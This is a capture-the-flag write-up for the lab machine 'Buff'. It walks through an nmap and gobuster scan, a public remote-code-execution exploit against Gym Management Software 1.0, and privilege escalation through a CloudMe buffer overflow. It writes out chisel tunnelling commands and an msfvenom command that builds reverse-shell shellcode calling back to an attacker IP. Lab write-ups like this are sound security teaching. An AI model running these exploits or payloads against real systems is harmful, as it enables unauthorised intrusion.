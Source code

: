 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16) (4).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9) (2) (5).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (164) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell via nc.exe or Powershell is trivial.

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

<figure><img src="../../../.gitbook/assets/image (4) (4) (3).png" alt=""><figcaption></figcaption></figure>

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe 10.10.16.9:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

Afterwards, we can simply run the exploit and it would spawn a root shell on the listener port.
